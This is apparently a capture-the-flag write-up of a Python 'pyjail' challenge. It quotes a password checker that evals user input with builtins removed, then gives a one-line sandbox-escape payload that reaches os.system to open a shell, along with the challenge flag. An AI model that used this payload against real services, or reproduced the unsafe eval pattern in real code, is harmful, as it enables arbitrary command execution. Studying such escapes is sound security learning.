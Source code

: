 # Bonus: The Revenge of Checkpass 1
> Last year (in an unrelated contest), I made a Python password checker that had way too many solutions. To be fair, it was on me for using eval without sanitizing input or anything, but like, cmon, can we not just trust people nowadays? What happened to the days of leaving your front door unlocked?

> Anyways, I made it completely foolproof this time: no flag variable, no more printing, heck, no builtins at all!

> Surely it's unbreakable now…right?

> This problem was inspired by an online judge platform that shall not be named.

## About the Challenge
We have been givena a `zip` file that contain a python script. Here is the content of the script

```python
#!/usr/local/bin/python
# -*- coding: utf-8 -*-

def main():
  password = "the password can contain non-ascii charactérs :)"
  inp = input("Enter a Python list: ")
  lis = eval(inp, {'__builtins__': None}, None)
  if type(lis) != list:
    print("That's not a list")
    return
  for i in lis:
    if not isinstance(i, int):
      print("The list can only contain integers")
      return
  if lis == [ord(e) for e in password]:
    print("You are now authorized!")
    with open("flag.txt", "r") as flag:
      print(flag.read())
  else:
    print("Incorrect password!")

if __name__ == "__main__":
  main()
```

This code snippet prompts the user to enter a Python list as input, evaluates the input string as a Python expression, and assigns the resulting list to the variable lis, while restricting access to built-in functions and variables for security purposes.

## How to Solve?
Im using PyJail payload to breakout from the sandbox. Here is the payload I used

```
().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")
```

![flag](images/flag.png)

```
ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}
```